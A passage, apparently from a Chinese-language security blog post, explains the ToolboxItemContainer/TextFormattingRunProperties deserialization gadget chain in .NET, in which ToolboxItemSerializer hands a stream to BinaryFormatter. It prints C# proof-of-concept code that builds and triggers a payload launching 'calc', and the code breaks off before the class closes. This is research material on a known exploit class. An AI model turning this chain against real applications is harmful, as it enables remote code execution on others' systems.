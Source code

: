 跟上面一样的，只是换成了一个从本地文件读一个XML

#### ToolboxItemContainer+TextFormattingRunProperties

**调用的类**：ToolboxItemContainer+TextFormattingRunProperties+ObjectDataProvider

**思路**：ToolboxItemSerializer的反序列化构造函数，`Stream`字段的值直接利用了BinaryFormatter进行反序列化，所以可以使用TextFormattingRunProperties填充byte数组，达到rce

**Sink关键点**：\_formatter.Deserialize()

传入Stream中的是字节，所以我们可以利用TypeConfuseDelegate的payload字节去替换TextFormattingRunProperties的payload字节。

[![](assets/1701606816-d10a46f81a23556fece018c5946d6965.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102105107-abe01a16-792a-1.png)

payload：

```plain
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Windows.Data;
using System.Windows.Markup;

namespace NancySerialize
{
    class Program
    {
        static void Main(string[] args)
        {
            BinaryFormatter binaryFormatter = new BinaryFormatter();
            byte[] vs;
            using (MemoryStream memory = new MemoryStream())
            {
                binaryFormatter.Serialize(memory, new TextFormattingRunPropertiesMarshal("calc"));
                vs = memory.ToArray();
            }
            ToolboxItemSerializerMarshal toolBox = new ToolboxItemSerializerMarshal(vs);
            using (MemoryStream memoryStream = new MemoryStream())
            {
                binaryFormatter.Serialize(memoryStream, toolBox);
                memoryStream.Position = 0;
                binaryFormatter.Deserialize(memoryStream);
            }
        }
```
